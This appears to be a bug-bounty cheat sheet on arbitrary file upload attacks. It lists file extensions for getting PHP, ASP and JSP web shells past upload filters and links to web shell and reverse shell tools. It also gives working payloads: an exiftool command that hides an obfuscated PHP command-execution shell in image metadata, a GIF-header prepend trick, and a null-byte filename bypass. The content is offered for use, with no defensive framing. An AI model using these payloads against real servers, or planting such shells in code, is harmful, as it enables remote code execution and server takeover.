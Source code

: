 ## Arbitrary File Upload (AFU)
![](https://i0.wp.com/blog.intigriti.com/wp-content/uploads/2020/05/file-upload.png?fit=1050%2C750&ssl=1)


**Learn Content Types**

```
Plain Text (.txt): text/plain
Rich Text Format (.rtf): text/rtf
Markdown (.md): text/markdown
PDF (.pdf): application/pdf
JPEG (.jpg, .jpeg): image/jpeg
PNG (.png): image/png
GIF (.gif): image/gif
BMP (.bmp): image/bmp
TIFF (.tiff, .tif): image/tiff
MP3 (.mp3): audio/mpeg
WAV (.wav): audio/wav
FLAC (.flac): audio/flac
AAC (.aac): audio/aac
MPEG (.mpeg, .mpg): video/mpeg
AVI (.avi): video/x-msvideo
MP4 (.mp4): video/mp4
MKV (.mkv): video/x-matroska
ZIP (.zip): application/zip
RAR (.rar): application/x-rar-compressed
7-Zip (.7z): application/x-7z-compressed
TAR (.tar): application/x-tar
GZ (.gz): application/gzip
BZ2 (.bz2): application/x-bzip2
avaScript (.js): application/javascript
Python (.py): text/x-python
Java (.java): text/x-java-source
C++ (.cpp, .h): text/x-c++
HTML (.html): text/html
CSS (.css): text/css
application/x-httpd-php
application/octet-stream
```

**Bypass PHP Shells**
```
php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .htaccess, .phar, .inc, .ctp, (all are not case sensitive)
```

**Bypass ASP Shells**
```
asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer
```

**Bypass JSP Shells**
```
.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
```

**Server Side Scripts**
```
.cgi , .shtml
```

**PHP Web Shells**

| WSO Shell | [Click](https://github.com/mIcHyAmRaNe/wso-webshell) |
| Reverse Shelll | [Click](https://github.com/yellphonenaing/reverse_shell) |
| Tiny FileManager | [Click](https://github.com/prasathmani/tinyfilemanager) |
| Bypass Shells | [Click](https://github.com/T-Tools/bypass_shells) |

**Hide Shell Codes In a File**

```
exiftool -Comment='<?php $x=$_GET;$sys="system";$c="c";$m="m";$d="d";!isset($x[$c.$m.$d])?phpinfo():$sys($x[$c.$m.$d]);?> ' shell.png
mv shell.png shell.php
```

**Bypass With GIF File Header**

```
Add GIF89a; in the first line of shell file
echo -n "GIF89a;" >shell.php
cat shellfile.php >>shell.php
```

**Nulled Bypass**

```
shell.php%00.png => shell.php
```

**Bug Bounty Tip**
```
Allow uploading html files leads to client site attacks and cors.
Allow Uploading Files With Unusual Extensions Leads To Client Site attacks And CORS.
```
